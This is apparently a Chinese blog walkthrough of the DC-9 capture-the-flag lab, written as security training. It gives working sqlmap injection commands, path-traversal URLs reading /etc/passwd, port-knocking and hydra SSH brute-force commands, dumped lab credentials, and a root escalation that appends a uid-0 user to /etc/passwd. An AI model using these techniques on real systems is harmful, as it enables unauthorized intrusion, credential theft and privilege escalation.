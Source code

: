 ```yaml
---
layout: post
title: DC-9
subtitle: DC-9
date: 2023-07-17 11:38
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - DC系列
published: true
number headings: first-level 2, max 4, 1.1., auto
---
```


## 1. 信息搜集

扫描 IP 发现主机 `192.168.163.135`

![image.png](https://img.ghostliner.top/RMLHfa.png)

扫描端口，发现 80 端口开放，22 端口 `filtered` 说明可能存在 ssh 服务，但被拒绝访问

```shell
nmap -T4 -A -p- 192.168.163.135
```

![image.png](https://img.ghostliner.top/EEZYUr.png)

扫描目录

```shell
dirsearch -u http://192.168.163.135/ -e* -i 200
```

![image.png](https://img.ghostliner.top/pizDdy.png)

`/search.php`发现搜索框，使用 sqlmap 测试

## 2. 数据库爆破

使用 bp 抓取提交搜索的数据包，保存到`a.txt`文件中

```http
POST /results.php HTTP/1.1
Host: 192.168.163.135
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 9
Origin: http://192.168.163.135
Connection: close
Referer: http://192.168.163.135/search.php
Cookie: PHPSESSID=rn9as0edebkia6tvjbv2amr05p
Upgrade-Insecure-Requests: 1
Priority: u=0, i

search=12
```

sqlmap 测试 `search`字段是否存在注入漏洞

```shell
sqlmap.py -r C:\Computer\Desktop\a.txt -p search --dbs
```

![image.png](https://img.ghostliner.top/7YhjJ5.png)

发现存在注入漏洞，且获取到两个数据库：`Staff`、`users`

### 2.1. 爆破 Staff 数据库

获取表名
![image.png](https://img.ghostliner.top/UzD1Aj.png)

获取列名
![image.png](https://img.ghostliner.top/EuucQt.png)

获取用户名、密码
![image.png](https://img.ghostliner.top/GKW85t.png)

得到密码：`transorbital1`

### 2.2. 爆破 users 数据库

获取 `users` 数据库数据

```shell
sqlmap.py -r C:\Computer\Desktop\a.txt -p search -D users -T UserDetails -C username,password --dump
```

![image.png](https://img.ghostliner.top/eQ4HRT.png)

相关数据保存到了 `C:\Users\vmuser\AppData\Local\sqlmap\output\192.168.163.135\dump\users\UserDetails.csv` 文件中，可将其中内容复制到 kali 中，之后用来 SSH 爆破
![image.png](https://img.ghostliner.top/t6HFtP.png)

## 3. 网站登录

通过用户：admin 密码：transorbital1 登录成功

发现 `File does not exist` 字段，猜测有文件包含漏洞

![image.png](https://img.ghostliner.top/ebtKO6.png)

测试 url: <http://192.168.163.135/manage.php?file=../../../../etc/passwd> ，成功获取到数据

由于 ssh 服务为 `filtered` 猜测是否存在敲门

构造 url: <http://192.168.163.135/welcome.php?file=../../../../../../etc/knockd.conf> ，访问成功

![image.png](https://img.ghostliner.top/IwnyAA.png)

## 4. SSH 爆破

根据文件中的端口，依次访问

```shell
nc 192.168.163.135 7469
nc 192.168.163.135 8475
nc 192.168.163.135 9842
```

再次扫描端口，发现已开放

![image.png](https://img.ghostliner.top/dufBKT.png)

将爆破 `users` 数据库得到的`.csv`文件内容复制到 kali，保存为 user.txt，使用 vim 将其中的 `,` 替换为 `:`，构造为符合 hydra 的格式

```vim
:%s/,/:/g
```

hydra 爆破 SSH

```shell
hydra -C user.txt ssh://192.168.163.135
```

![image.png](https://img.ghostliner.top/iG2yVd.png)

| 用户名    | 密码        |
| --------- | ----------- |
| chandlerb | UrAG0D!     |
| janitor   | Ilovepeepee |
| joeyt     | Passw0rd    |

janitor 登陆成功，发现以下文件

![image.png](https://img.ghostliner.top/YjkmXE.png)

查看内容，疑似密码

![image.png](https://img.ghostliner.top/3WRnwe.png)

保存到文件中，并将之前的 user.txt 内容删去密码

```vim
:%s/:.*//g
```

爆破用户名密码

```shell
hydra -L user.txt -P pass.txt ssh://192.168.163.135
```

![image.png](https://img.ghostliner.top/7vJOMF.png)

| 用户名 | 密码        |
| ------ | ----------- |
| fredf  | B4-Tru3-001 |
| joeyt  | Passw0rd    |

获取到新的用户名，发现为系统管理员

![image.png](https://img.ghostliner.top/o9vgFE.png)

## 5. root 提权

登录成功，尝试 `sudo -l` 提权

![image.png](https://img.ghostliner.top/GQZeqJ.png)

发现 `/opt/devstuff/dist/test/test` 可用于提权，查看文件属性为二进制文件

![image.png](https://img.ghostliner.top/NDQyxu.png)

搜索上级目录，发现源代码文件 `test.py`

![image.png](https://img.ghostliner.top/AhWaag.png)

查看脚本内容：输入两个参数，且都为文件路径，之后读取第一个文件内容，将其追加到第二个文件中

```python
#!/usr/bin/python
import sys
if len (sys.argv) != 3 :
    print ("Usage: python test.py read append")
    sys.exit (1)
else :
    f = open(sys.argv[1], "r")
    output = (f.read())
    f = open(sys.argv[2], "a")
    f.write(output)
    f.close()
```

利用思路：向 `/etc/passwd` 中追加 root 权限用户，之后切换到该用户，实现 root 提权

使用无密码用户提权失败，因此生成加密密码，构造有密码用户

```shell
openssl passwd -1 123
# $1$1kseWC6t$1LvPSSOv2xgHthMIJWXA.0
```

构造 `/etc/passwd` 格式，保存到临时文件，执行 test 脚本将其追加到 `/etc/passwd` 中

```shell
echo 'rroott:$1$1kseWC6t$1LvPSSOv2xgHthMIJWXA.0:0:0::/root:/bin/bash' >/tmp/tf
sudo ./test /tmp/tf /etc/passwd
su rroott
```

提权成功

![image.png](https://img.ghostliner.top/Il8qMj.png)

获取 flag 文件

![image.png](https://img.ghostliner.top/I1138g.png)

